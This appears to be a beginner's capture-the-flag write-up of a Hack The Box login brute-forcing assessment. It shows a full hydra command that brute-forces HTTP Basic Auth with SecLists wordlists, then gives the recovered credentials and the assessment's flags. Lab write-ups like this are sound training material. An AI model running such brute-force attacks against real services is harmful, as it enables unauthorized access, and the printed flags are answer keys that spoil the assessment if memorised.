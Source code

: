 
Hello Hackers!

Welcome to my First Blog. This is my first time writing a writeup so please correct me if i write something wrong.

First, We spawn the target and head over to new tab to see what's going on


![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing//assets/skill-assessment1/01.png)

We see that we can't establish connection yet. and Looking at the question of this assessment. We can see that the target has Basic HTTP Authentication on the webpage to restrict us from seeing the contents

Lets Luanch hydra and try to brute force this.

```
hydra -L /home/<username>/SecLists/Usernames/top-usernames-shortlist.txt -P /home/<username>/SecLists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -V 94.237.53.81 http-get / -s 49717 -f
```
![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1/2.png)
![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1/3.png)

There, we found the credentials

```
admin:Admin123
```

Lets try loggin with our browser now and enter the credentials we found.

![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1/4.png)

![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1/5.png)

There we go, Bingo


`Congratulations Hackers!!` we found our flags

```
Flag1 : Admin123
Flag2 : satwossh
```

Remember the username we found as it will be needed in skill-assessment2

This marks the end of this section. See you in next blog~~~